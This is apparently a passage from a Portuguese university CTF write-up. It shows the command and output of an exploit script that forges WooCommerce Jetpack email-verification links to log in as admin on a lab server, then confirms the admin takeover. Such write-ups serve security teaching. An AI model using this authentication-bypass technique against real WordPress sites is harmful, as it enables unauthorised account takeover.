 ```sh
> python3 50299.py http://ctf-fsi.fe.up.pt:5001/ 1
Timestamp: Fri, 05 Nov 2021 22:59:06 GMT
Timestamp (unix): 1636153146

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash e8ac9d1e07c77411fc0fd52cc47bade5:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiZThhYzlkMWUwN2M3NzQxMWZjMGZkNTJjYzQ3YmFkZTUifQ

#1 link for hash ab59d86c454385dbde188310cacc4335:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiYWI1OWQ4NmM0NTQzODVkYmRlMTg4MzEwY2FjYzQzMzUifQ

#2 link for hash b5342e1b8a258593a2e0898c5fb222b6:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiYjUzNDJlMWI4YTI1ODU5M2EyZTA4OThjNWZiMjIyYjYifQ
```

Acedendo ao `#0 link`, ganhamos acesso ao perfil do utilizador `admin` e uma notificação a dizer:

**Success:** Your account has been activated!

:)

![Image 7](./images/lb4_ctf_img2.png)
